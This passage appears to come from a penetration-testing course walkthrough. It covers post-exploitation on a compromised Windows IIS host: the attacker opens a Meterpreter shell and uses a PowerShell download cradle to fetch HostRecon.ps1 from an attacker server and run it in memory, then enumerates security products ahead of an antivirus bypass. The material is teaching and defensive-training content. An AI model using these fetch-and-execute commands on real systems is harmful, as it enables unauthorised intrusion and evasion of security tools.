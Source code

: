 > Listing 14 - Migrating into notepad

With this more stable shell, we can start our post-exploitation enumeration. We already know that antivirus is present on this machine, but we would like to determine which product is in place in order to simplify our bypass attempt. We also need to know if the antivirus supports AMSI.

We can use the PowerShell _HostRecon_[2](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5589-2) script to detect a multitude of host-based settings and information. Since this is a PowerShell script, we'll use Meterpreter's shell to open a command prompt, which we can convert to PowerShell.

Next, we'll download the HostRecon.ps1 PowerShell script from our Kali web server and load it into memory with a download cradle:

```
meterpreter > shell
Process 3000 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv> powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv> (new-object system.net.webclient).downloadstring('http://192.168.119.120/HostRecon.ps1') | IEX
(new-object system.net.webclient).downloadstring('http://192.168.119.120/HostRecon.ps1') | IEX
```

> Listing 15 - Downloading and loading HostRecon.ps1

We automatically bypass the PowerShell execution policy with the _Invoke-Expression_ (IEX) cmdlet and execute the Invoke-HostRecon function.

```
PS C:\windows\system32\inetsrv> Invoke-HostRecon
Invoke-HostRecon
[*] Hostname
WEB01
...
[*] Current Domain and Username
Domain = IIS APPPOOL
Current User = DefaultAppPool
...
[*] Checking local firewall status.
The local firewall appears to be enabled.
...
[*] Checking for Local Admin Password Solution (LAPS)
The LAPS DLL was not found.
...
[*] Checking for common security product processes
Possible Windows Defender AV process MsMpEng is running.
...
```
